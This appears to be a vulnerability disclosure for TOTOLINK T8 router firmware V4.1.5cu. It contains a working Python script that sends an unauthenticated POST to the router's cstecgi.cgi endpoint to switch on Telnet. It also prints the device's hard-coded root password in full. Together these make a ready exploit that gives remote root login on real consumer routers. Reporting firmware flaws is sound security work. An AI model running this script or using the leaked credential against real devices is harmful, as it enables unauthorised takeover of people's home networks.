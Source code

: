 # TOTOLINK T8 TELNET

## Description

Attackers can start the Telnet service without authorization and log in to the telnet service with a hard-coded password

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

Telnet is enabled by sending the following POST packet .

```
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
data = '{"telnet_enabled":"1","topicurl":"setTelnetCfg"}'
rep = requests.post(url, data=data)
print(rep.status_code)
print(rep.content)
```

The default account password exists in the file `/web_cste/cgi-bin/product.ini`：`root:KL@UHeZ0`

![image-20230116195313617](images/6.png)

![image-20230116194911323](images/4.png)

In `/bin/cs`

![image-20230116194625197](images/3.png)

In `bin/convertIniToCfg`

![image-20230116195206223](images/5.png)

success!

![image-20230116195635180](images/7.png)
